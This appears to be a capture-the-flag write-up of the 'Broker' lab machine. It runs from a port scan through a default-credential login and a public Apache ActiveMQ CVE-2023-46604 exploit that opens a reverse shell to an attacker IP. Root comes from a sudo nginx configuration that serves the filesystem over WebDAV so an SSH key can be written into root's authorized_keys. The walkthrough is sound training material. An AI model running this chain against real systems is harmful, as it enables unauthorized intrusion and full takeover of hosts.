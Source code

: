 # Broker - Writeup

## Initial Enumeration

### Port Scanning
A basic port scan revealed only two open ports:
```
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
```

### Web Enumeration
Upon accessing the web server on port 80, I was presented with a basic HTTP authentication prompt:
```
WWW-Authenticate: Basic realm="ActiveMQRealm"
```

This indicated that Apache ActiveMQ was running on the server, which is a popular message broker application.

## Gaining Initial Access

### Default Credentials
I attempted to use common default credentials for ActiveMQ:
```bash
curl -v -u admin:admin http://10.129.230.87
```

This was successful, confirming that the server was using default credentials:
- **Username**: admin
- **Password**: admin

### Service Version Identification
After authenticating, I examined the web interface to determine the ActiveMQ version:
```bash
curl -s -u admin:admin http://10.129.230.87 | grep -i version
```

This revealed that ActiveMQ version 5.15.0 was running on the server.

### Vulnerability Research
Research indicated that ActiveMQ 5.15.0 is vulnerable to a critical remote code execution vulnerability, identified as CVE-2023-46604. This vulnerability allows an attacker to send specially crafted serialized data to the OpenWire protocol port, leading to remote code execution.

### Exploit Development
I used a publicly available exploit for CVE-2023-46604:
```bash
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ
```

I prepared the exploit with my attack machine's IP and a chosen port for the reverse shell:
```bash
python3 activemq-exploit.py -i 10.10.14.15 -p 4444 -t http://10.129.230.87
```

I set up a listener to catch the reverse shell:
```bash
nc -lvnp 4444
```

After executing the exploit, I received a shell as the `activemq` user, confirming successful exploitation of the vulnerability.

## Privilege Escalation

### Sudo Permission Enumeration
I checked for sudo permissions available to the activemq user:
```bash
sudo -l
```

This revealed that the activemq user could run nginx as root without a password:
```
User activemq may run the following commands on broker:
    (root) NOPASSWD: /usr/sbin/nginx
```

### Nginx Configuration Exploitation
Nginx runs with the permissions of the user specified in its configuration file. By creating a custom configuration file that specifies the root user and setting up a WebDAV server, I could gain write access to the filesystem as root.

I created a malicious nginx configuration file:
```bash
cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1339;
                root /;
                autoindex on;
                dav_methods PUT;
        }
}
EOF
```

I started nginx with this configuration:
```bash
sudo nginx -c /tmp/nginx_pwn.conf
```

### SSH Key Generation and Deployment
I generated an SSH key pair:
```bash
ssh-keygen -t rsa -f /tmp/pwn_key -N ""
```

Using the WebDAV PUT method, I added my public key to the root user's authorized_keys file:
```bash
curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat /tmp/pwn_key.pub)"
```

### Root Access
With the SSH key in place, I connected to the server as root:
```bash
ssh -i /tmp/pwn_key root@localhost
```


I verified my access.
```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

This confirmed full root access!